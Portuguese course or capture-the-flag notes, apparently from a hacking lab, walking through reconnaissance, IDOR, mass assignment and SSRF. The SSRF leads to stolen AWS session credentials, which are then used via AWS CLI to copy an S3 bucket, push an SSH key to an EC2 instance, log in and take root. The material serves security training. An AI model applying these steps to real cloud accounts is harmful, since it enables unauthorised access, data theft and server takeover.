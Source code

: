 # Anatoções

## Dia 01 - Recon Scritps

Reconhecimento da aplicação.
É uma parte fundamental para encontramos vulnerabilidades. Quanto mais soubemos sobre a aplicação mas vulnerabilidades podemos encontramos.

O que podemos encontrar nessa etapa:

- Portas, IP, servidores em execução.
- Quais tecnologias existem no site.
- Mapear pasta, diretórios e rotas.

## Dia 02 - Análise e identificação de vulnerabilidades

Identificar → analisar → explorar

Na identificação do diretório **./git/**, foi feito Code Review e depois a exploração.

Vulnerabilidades encontradas:

- **IDOR** (Insecure Direct Object Reference) - Não verifica o usuário autenticado, permite acesso a conteúdo de outro usuário.
- **SSRF** (Server Side Request Forgery) - pode levar ao comprometimento do servidor e da rede do cliente.
- **Mass Assignment** - é possível editar qualquer campo no perfil do usuário.

**Desafio**: Explorar a vulnerabilidade IDOR

![flag desafio 02](/shw/pics/flag02.png)

## Dia 03 - Exploração / Invasão

Exploração a vulnerabilidade de SSRF e acesso a AWS.

**CSRF**: tentativa de falsificação de requisição.
Bloqueado pelo Laravel, que utiliza de duas validações:

- Cookie: **XSRF-TOKEN**
- **_token**, gerado randomicamente a cada novo post.

**Burp** suite: tentativa de falsificação de requisição.
Com o burp conseguimos realizar com sucesso:

- Listamos e alteramos campos do usuario. Alterando o tipo de usuário para usuário admin. Vulnerabilidade foi permitida porque não tinha restrição de campo que impeça a alteração do tipo de usuário.
- Acesso IAM. Como acesso ao IAM, conseguimos pegar o servidor atrelado ao perfil e as credenciais:

```bash
AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY
AWS_SESSION_TOKEN
```

**Acesso AWS**
Utilizamos AWS CLI, add as credenciais e realizamos uma chamada direita entre nós e AWS:

```bash
aws sts get-caller-identity #verifica se a chave tá funcionando e quem somos nós na AWS
```

Retornando:

```js
{
  UserId, 
  Account,
  Arn
}
```

Testamos o acesso ao S3

```bash
aws s3 ls
```

Retornando com sucesso.

**Desafio**: Encontrar a flag que tá no bucket em user-data.txt

**Solução**: Pesquisei como eu poderia copiar um arquivo do Bucket para a minha máquina.
Encontrei sobre o [CP](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/s3/cp.html).

Basicamente eu chamaria o cp passando o Bucket com o . --recusive, assim eu copiaria tudo do Bucket para a minha máquina.</br>

Depois fiz um cat no arquivo user-data.txt, encontrando a flag.

![flag desafio 03](/shw/pics/flag03.png)

## Dia 04 - Pós-Exploração na AWS

- Listar sevidores(ec2)

```bash
aws ec2 describe-instances
```

![ec2 IP](/shw/pics/ec2-ip-new.png)

Colocamos a lista em leitor de JSON

![lista json](/shw/pics/ec2-retorno-ip.png)

Ao listar ec2, vimos IP que não conhecemos, fizemos um nmap e depois nmap sem o ping.

- Conectar instância EC2:

```bash
ec2-instace-connect help
```

![ec2 help](/shw/pics/ec2.help.png)

EC2 permite que o administrador de sistema envie uma chave ssh publica deles para um servidor.

Olhamos o que precisamos enviar para ter esse acesso:

```bash
aws ec2-instance-connect send-ssh-public-key help
```

![send-ssh-help](/shw/pics/send-ssh-help.png)

```bash
aws ec2-instance-connect send-ssh-public-key \
--instance-id i-1234567890abcdef0 \
--instance-os-user ec2-user \
--availability-zone us-east-2b \
--ssh-public-key file://path/my-rsa-key.pub
```

- Precisamos criar chave ssh (só crie se você não tiver uma)

```bahs
ssh-keygen
```

- Precisamos enviar chave publica para o servidor.

```bash
aws ec2-instance-connect send-ssh-public-key --instance-id i-032802861b7c9c59c --instance-os-user ec2-user --ssh-public-key file:///home/kali/.ssh/id_rsa.pub --availability-zone us-east-1a --region us-east-1
```

- instance-id e availability-zone são daquele IP que não conhecemos.

![dados ip](/shw/pics/dado-ip.png)

- Chave enviada com sucesso

![chave enviada](/shw/pics/ec2-send-key-ok.png)

- Agora vamos conectar com o servidor passando a chave ssh(chave privada)

```bash
ssh -i /home/kali/.ssh/id_rsa ec2-user@44.202.22.33
```

![aws](/shw/pics/acessando-aws.png)

**Desafio**: Virar usuario root da máquina
**Solução**:

- sudo passwd root : para mudar a senha do root
- su - : coloquei a nova senha
- ls -la: listei diretórios
- cat root.txt : encontrei a flag

![flag desafio 04](/shw/pics/flag04.png)

